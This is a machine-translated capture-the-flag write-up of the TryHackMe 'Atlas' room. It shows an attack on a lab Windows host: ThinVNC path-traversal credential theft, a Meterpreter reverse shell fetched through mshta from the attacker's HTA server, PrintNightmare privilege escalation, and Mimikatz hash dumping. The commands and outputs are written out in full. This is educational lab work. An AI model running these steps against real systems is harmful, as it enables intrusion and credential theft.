










# TryHackMe 报道:Atlas

> 原文：<https://infosecwriteups.com/tryhackme-writeup-atlas-c3dff235d109?source=collection_archive---------0----------------------->

[“MurilandOracle”(2021)](https://tryhackme.com/room/atlas)发表了一个 TryHackMe 教程室，讨论了一个简单的 ThinVNC 漏洞，一点利用开发和测试，以及 PrintNightmare 漏洞。在我永无止境的“打破规则”的追求中，这个房间比 MurilandOracle 计划的多花了我大约一周的时间来完成。尽管如此，打扫房间还是一次有趣的经历。这篇文章将详细介绍我是如何完成房间的。


基础图片:[坎宁安和古德温(2015)](https://www.amazon.com/Age-Selfishness-Morality-Financial-Crisis/dp/1419715984)

# 程序

在开始之前，我编辑了攻击箱上的`/etc/hosts`文件，并添加了下面一行:

```
<target ip> atlas.thm
```

我这样做是因为我知道我不会一次就结束这个房间，而且 TryHackMe boot2root 机器的 IP 地址会随着每个新会话而改变。最好记录一个伪域名，而不是动态 IP 地址，这样每当我启动目标虚拟机时，我就可以用新的目标 IP 地址编辑`/etc/hosts`文件。

然后，我点击第一个任务右上角的绿色“启动机器”按钮，开始探测机器。

## 侦察

为了“让球滚动起来”，我从对目标机器的 [nmap (n.d.)](https://nmap.org/) 扫描开始:

```
**┌──(dna@deniers)-[~/atlas]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.1.xml atlas.thm **   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ([https://nmap.org](https://nmap.org)) at [redacted] EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at [redacted]
```

房间里的人注意到目标机器正在运行 Windows，因此需要使用`-Pn`标志来忽略 Windows 不响应 ICMP 请求的事实，并继续启动端口扫描。`-oX tcp_scan.1.xml`标志指示 nmap 以 XML 格式存储其结果。

我已经用`xsltproc`实用程序将原始的 XML 输出转换成可读的 HTML 格式:

```
**┌──(dna@deniers)-[~/atlas]
└─$ xsltproc tcp_scan.1.xml -o tcp_scan.html**
```

图 1 显示了`xsltproc`输出的摘录，特别是目标系统上开放的端口:



**图 1**

有两个端口是打开的:一个是 3389 上的 TCP 驱动服务，另一个是 8080 端口上的 TCP 驱动服务。扫描还确定操作系统为“av tech Room Alert 26W environmental monitor”。

**注意，**7680 上的服务已经被`tcpwrappped`化了，这意味着无论运行它的是什么，都会引用`/etc/hosts.allow`和`/etc/hosts.deny`文件，并根据它们的配置授予(或拒绝)访问权限( [Red Hat 客户门户，n.d](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-tcp_wrappers_and_xinetd-tcp_wrappers_configuration_files) )。还应该注意的是，`tcpwrapped`服务不同于防火墙——这在[Attrition.org(c . a . 1998)](https://attrition.org/errata/charlatan/carolyn_meinel/www/tech-06.html)中有所讨论。

对 nmap 结果的进一步检查显示了端口 3389 和 8080 上分别运行的服务。前者正在运行远程桌面协议服务(如 Microsoft 终端服务横幅所示；另见[梁等人，2021](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) )，而后者正在运行 ThinVNC 服务( [Cybele 等人，n . d .](https://sourceforge.net/projects/thinvnc/))——如 nmap 结果中的以下片段所示:`[…] ticate: Digest **realm="ThinVNC"**, qop="aut […]`。

我决定使用后一种服务作为切入点。我用我的攻击箱的网络浏览器访问了托管在`atlas.thm:8080`上的网络服务，得到如下信息(图 2):



**图 2**

我输入用户名/密码组合`admin:admin`，它回复了同样的登录对话框。然后我点击取消，得到一个“401 访问被拒绝”的错误页面。

然后，我运行`searchsploit`来获取利用 ThinVNC 服务中的漏洞的潜在候选人:

```
**┌──(dna@deniers)-[~/atlas]
└─$ searchsploit thinvnc**
------------------- -------------------------------------------
Exploit Title                         |  Path                                                                        ------------------- -------------------------------------------
ThinVNC 1.0b1 - Authentication Bypass | windows/remote/47519.py                                                     
---------------------------------------------------------------
Shellcodes: No Results
```

手头有了概念证明，我现在可以着手将其武器化。

## 初始访问

`searchsploit`发现的概念证明是由 [Tumamlapalli (2019)](https://www.exploit-db.com/exploits/47519) 设计的。我将上述概念证明复制到我的项目目录中，然后运行它，以获得如何使用它的“感觉”:

```
**┌──(dna@deniers)-[~/atlas]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/47519.py ./exploit1.py**

**┌──(dna@deniers)-[~/Documents/THM/ctf/atlas]
└─$ python3 exploit1.py**
Usage:
exploit1.py <host> <port>Example:
{} 192.168.0.10 5888
```

好吧。看起来该漏洞利用将主机名作为第一个参数，将端口作为第二个参数。我将尝试分别用`atlas.thm`和`8080`运行它:

```
**┌──(dna@deniers)-[~/atlas]
└─$ python3 exploit1.py atlas.thm 8080** 
Traceback (most recent call last):
  File "~/atlas/exploit1.py", line 39, in <module>
    main()
  File "~/atlas/exploit1.py", line 36, in main
    exploit(host,port)
  File "~atlas/exploit1.py", line 24, in exploit
    print(body.splitlines()[2])
IndexError: list index out of range
```

显然，有些事情不对劲😭。根据错误消息判断，错误的根源在于脚本的`exploit()`函数，似乎是由于解析某种字符串时出错。以下是我试图调试的漏洞的一个片段:

ThinVNC 认证旁路利用( [Tumamlapalli，2019](https://www.exploit-db.com/exploits/47519) )

**注意**这只是源代码的一个片段，所以我的 AttackBox 的终端输出的错误消息上的行号可能与片段中的行号不匹配。

查看该漏洞的源代码，ThinVNC (1.0b1)似乎存在一个目录遍历漏洞，使得恶意黑客能够读取关于高于 web 服务器根目录的目录的`.ini`文件。我将尝试手动利用这个东西:

```
**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/../../ThinVnc.ini**
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVnc.ini was not found on this server.<P></BODY></HTML>

**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/../ThinVnc.ini** 
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVnc.ini was not found on this server.<P></BODY></HTML>

**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/ThinVnc.ini** 
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL xyz/ThinVnc.ini was not found on this server.<P></BODY></HTML>
```

在尝试了几分钟类似的`curl` GET 请求后，我决定进一步研究这个漏洞。看来概念证明被破坏了，由[“muri landoracle”(2021 b)](https://github.com/MuirlandOracle/CVE-2019-17662)设计的更可靠的概念证明将被用于访问系统。我开始将 AG 的漏洞下载到我的攻击箱中，然后对系统进行测试:

```
**┌──(dna@deniers)-[~/atlas]
└─$ python3 CVE-2019-17662.py atlas.thm 8080** _____ _     _    __     ___   _  ____                                                                                          
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                                                                         
      | | | '_ \| | '_ \ \ / /|  \| | |                                                                                             
      | | | | | | | | | \ V / | |\  | |___                                                                                          
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                                                                         

                            @MuirlandOracle
[+] Credentials Found!
Username:       Atlas
Password:       [redacted]
```

成功了！对于有兴趣对该漏洞进行更彻底的评估并手动利用该漏洞的人，我将在附录 A.1 中进一步讨论。但有了这些凭据，我现在可以通过 ThinVNC 服务登录系统。



**图 3**

我将使用实用程序 [Remmina (n.d.)](https://remmina.org/) 通过 ThinVNC 协议登录到目标系统。运行该实用程序后，主用户界面出现(图 3)。事情应该设置为“RDP”(图 3b)，我将通过点击左上角带有加号(“+”)图标的按钮来启动一个临时连接(图 3a)。



**图 4**

打开另一个窗口(图 4 ),要求用户输入 RDP 连接的配置。然后，我输入服务器(图 4a)、用户名(图 4b)和密码(图 4c)。我还将 Remmina 配置为使用自定义的`1380x768`分辨率(图 4d 和 4e)来显示更大的屏幕，并启用了“共享文件夹”功能，这将允许目标系统从我的攻击箱中访问文件。最后，我通过点击“连接”按钮连接到目标机器的 RDP 服务(图 4g)。以下窗口(图 5)显示了目标机器的 RDP 驱动界面:



**图 5**

## 后剥削

就我个人而言，我更喜欢 Meterpreter 外壳( [Metasploit Unleashed，n.d.](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) )。为了得到它，我最初尝试 Metasploit 的`web_delivery`模块通过 PowerShell 和一个`base64`编码的有效载荷来交付它——但是有效载荷无法执行。因此，我寻找了一种替代方法，通过 HTA 应用程序( [Microsoft Docs，2013](https://docs.microsoft.com/en-us/previous-versions/ms536496(v=vs.85)) )来交付和执行有效载荷，这是由 [Chandel (2019)](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/) 讨论的。在 AttackBox 上，我启动了 Metasploit，然后配置并启动了`hta_server`模块:

```
**┌──(dna@deniers)-[~/atlas]
└─$ sudo msfconsole  **              
[sudo] password for dna: ***inputs password***[... snip ...]**msf6 > use exploit/windows/misc/hta_server**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
**msf6 exploit(windows/misc/hta_server) > set SRVHOST 0.0.0.0**
SRVHOST => 0.0.0.0
**msf6 exploit(windows/misc/hta_server) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/misc/hta_server) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/dropper.hta
[*] Server started.
```

在目标机器的命令提示符下运行了命令`mshta.exe http://<attackbox ip>:8080/dropper.hta` 之后，我得到了一个反向的 Meterpreter shell，并开始与它进行交互:

```
**msf6 exploit(windows/misc/hta_server) >** [*] Sending stage (175174 bytes) to <target ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> atlas.thm:49859 ) at [redacted] -0400**msf6 exploit(windows/misc/hta_server) > sessions -i 1**
[*] Starting interaction with 1...**meterpreter >**
```

为了获得系统权限，我将尝试 Meterpreter 的`priv`模块附带的传统`getsystem`命令:

```
**meterpreter > getsystem**
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
**meterpreter >**
```

看来`getsystem`不行了。该室建议通过 PrintNightmare 漏洞向量提升权限([微软安全响应中心，2021](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) )。特别是，建议竞争者使用由 Stewart 和 Hammond (2021) 设计的 PrintNightmare 实现。

首先，我将把它的存储库克隆到攻击框上的我的项目文件夹中:

```
**┌──(dna@deniers)-[~/atlas]
└─$ git clone https://github.com/calebstewart/CVE-2021-1675**
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
Receiving objects: 100% (40/40), 131.12 KiB | 2.22 MiB/s, done.
Resolving deltas: 100% (9/9), done.

**┌──(dna@deniers)-[~/atlas]
└─$**
```

然后在 Meterpreter 会话中，我在系统上启动了一个`shell`接口，然后启动了 PowerShell 并启动了漏洞利用:

```
**meterpreter > powershell_shell**
**PS > . \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1
PS > Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll[*] atlas.thm - Meterpreter session 1 closed.  Reason: DiedTerminate channel 1? [y/N] ***Y***
[-] Error running command powershell_shell: Rex::TimeoutError Operation timed out.
```

从输出来看，看起来像是用用户名`adm1n`和密码`P@ssw0rd`创建了一个新的管理员帐户。现在，我将以这个新管理员用户的身份运行 Windows 命令提示符，方法是右键单击命令提示符并输入新创建的凭证(参见图 6):



**图 6**

用户名`adm1n`被提供给用户字段(图 6a)，密码`P@ssw0rd`被提供给密码字段(图 6b)。然后单击“OK”按钮进入管理员命令提示符。不幸的是，用户名和密码无法识别(图 7)。



**图 7**

看起来我需要找一个“工作场所”

在这个实验中，我切换到 Remmina 打开的远程桌面实例，并通过远程桌面从 PowerShell 界面运行漏洞利用:

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.**PS C:\Users\Atlas> Import-Module \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1**Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R**PS C:\Users\Atlas> Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
**PS C:\Users\Atlas> net user**User accounts for \\GAIA--------------------------------------------------------------------
adm1n **[*]**                Administrator            Atlas
DefaultAccount           Guest                    WDAGUtilityAccount
The command completed successfully.**PS C:\Users\Atlas>**
```



**图 8**

然后，我通过 Remmina 登录到新的 adm1n 帐户，使用开发阶段描述的程序(特别是图 4)，以管理员身份打开 Windows 命令提示符(图 8a)，指示`mshta.exe`通过 dropper 获取 Meterpreter 反向外壳(图 8b)并…

```
[*] atlas.htm hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to atlas.thm
[*] Meterpreter session 2 opened (<attackbox ip>:4444 -> atlas.thm:49842 ) at [redacted] -0400msf6 exploit(windows/misc/hta_server) > sessions -i 2
[*] Starting interaction with 2...**meterpreter >**
```

我将再次尝试`getsystem`权限提升方法:

```
[*] Starting interaction with 2...**meterpreter > getsystem**
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
**meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
**meterpreter >**
```

太棒了。

有了`SYSTEM`级别的权限，我现在可以继续将哈希转储到系统中。出于持久性的目的，我将获取`Administrator`账户的 NTLM 散列。

我将通过 Meterpreter 的`kiwi`扩展使用*Mimikatz*([MITRE ATT&CK 框架，2017](https://attack.mitre.org/software/S0002/) )通过它的`lsa_dump_sam`命令获得哈希值:

```
**meterpreter > load kiwi**
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX (vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/Success.**meterpreter > lsa_dump_sam**
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624SAMKey : 6e708461100b4988991ce3b4d8b1784eRID  : 000001f4 (500)
User : Administrator
  Hash NTLM: ****c16444961f67af7eea7e420b65c8c3eb****[... snip ...]**meterpreter >**
```

kiwi 模块报告说`Administrator`的 NTLM 散列是:`c16444961f67af7eea7e420b65c8c3eb`，它可以用于密码破解或传递散列目的([胡梅尔，C](https://www.sans.org/white-papers/33219/) )。

阿洛拉。

# 摘要

尽管这是一个简单的“辅导室”，但花费的时间比预期的要长，因为我有点奇怪的习惯，有点偏离房间作者给出的说明。黑客行为就是打破常规，找到解决常规问题的新颖而巧妙的方法——尤其是在攻击性安全问题上。

尽管如此，我还是按照作者在附录 A.2 中的意图，为感兴趣的人使用了 PrintNightmare 漏洞。我还手动利用了附录 A.1 中的 ThinVNC 漏洞向量来查找任何超常者。

## 外卖食品

*   概念验证有时会被打破，因此建立一个虚拟机实验室，并确保首先对其进行测试。
*   如果概念验证失败了，试着调试它，在网上找一个更可靠的实现，甚至自己设计。我选择了第二个和第三个来开发 ThinVNC。
*   除非你正在参加*攻击性安全认证专家*考试，否则不要害怕使用 Metasploit 和 Meterpreter 让你的生活变得更轻松；-)

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 附录

## A.1 人工开采

[“MurilandOracle”(2022 a，任务 4)](https://tryhackme.com/room/atlas) 挑战竞争者手动执行 ThinVNC 漏洞利用。为了了解他设计的漏洞利用是如何工作的，我将检查其源代码的相关部分。以下是穆兰多尔对破碎的概念证明的修正的摘录:

在[之后穆兰多尔(2022b)](https://github.com/MuirlandOracle/CVE-2019-17662)

MurilandOracle 利用的重要之处在于，它从命令行接受参数，并将目标 URL 作为字符串存储在`url`中。要攻击的端口作为一个整数存储在`port`变量中。

根据是否使用了`ssl`参数，`url`使用了`http://`或`https://`。然后，该漏洞利用`GET`准备好的语句发出`HTTP`请求。具体来说，该漏洞将发出的请求是:

```
http://atlas.thm:8080/abc/../../ThinVNC.ini
```

我手动“复制”了这个漏洞，方法是打开 python3 shell，手动输入 MurilandOracle 漏洞后的命令:

```
**┌──(dna㉿deniers)-[~/atlas]
└─$ python3  **                  
Python 3.9.11 (main, [redacted]) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
**>>> import requests
>>> url_to_attack = "http://atlas.thm:8080/abc/../../ThinVNC.ini"
>>> request = requests.Request(method="GET", url=url_to_attack)
>>> prep_request = request.prepare()**
**>>> prep_request.url = url_to_attack
>>> suss = requests.Session()**
**>>> attack = suss.send(prep_request, timeout=3)
>>> attack.text**
'[Authentication]\r\nUnicode=0\r\n***User=Atlas***\r\n***Password=[redacted]***\r\nType=Digest\r\n[Http]\r\nPort=8080\r\nEnabled=1\r\n[Tcp]\r\nPort=\r\n[General]\r\nAutoStart=1\r\n'
**>>>**
```

阿洛拉。

## A.2 使用 Mimikatz 转储哈希

我有一个坏习惯，就是在做辅导室的时候“把事情搞混”，这有点违反规则。在这个房间里，我在进行权限升级后使用了 *Meterpreter* 模块。

在目标机器上，我打开了 PowerShell，并像前面一样启动了 InvokeNightmare exploit:

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.**PS C:\Users\Atlas> Import-Module \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1**Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): ***R***
**PS C:\Users\Atlas> Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
**PS C:\Users\Atlas> net user**User accounts for \\GAIA-------------------------------------------------------------------------------
adm1n **[*]**                 Administrator            Atlas
DefaultAccount           Guest                    WDAGUtilityAccount
The command completed successfully.**PS C:\Users\Atlas>**
```

用户`adm1n`被添加了密码`P@ssw0rd`。为了获得管理员命令提示符界面，我使用了以下命令:

```
**PS C:\Users\Atlas>** **Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n**
```

出现以下窗口(图 9):



**图 9**

我在密码字段中键入`P@ssw0rd`(图 9a)，然后一个用户访问控制窗口出现，询问我是否想以管理员身份运行命令提示符——我点击了“是”然后，我从命令提示符运行 PowerShell。为了确定我拥有什么特权，我在命令提示符下运行了`whoami /groups`。下表描述了输出(图 10):



**图 10**

BUILTIN\Administrators 和 Mandatory 标签\High Mandatory Level 表示此命令提示符实例是以管理员身份运行的。

现在，我将转储系统上的哈希值。我下载了`mimikatz_trunk.zip` ( [Delpy，2021](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2) )并解压到我的 AttackBox 的项目文件夹中。然后，我从目标机器的命令提示符加载:

```
**PS C:\Windows\system32> \\tsclient\atlas\mimikatz\x64\mimikatz.exe**.#####.   mimikatz 2.2.0 (x64) #19041 [redacted]
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi`(benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX (vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/**mimikatz #**
```

我将提升特权:

```
**mimikatz # privilege::debug**
Privilege '20' OK**mimikatz # token::elevate**
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM672     {0;000003e7} 1 D 24844          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
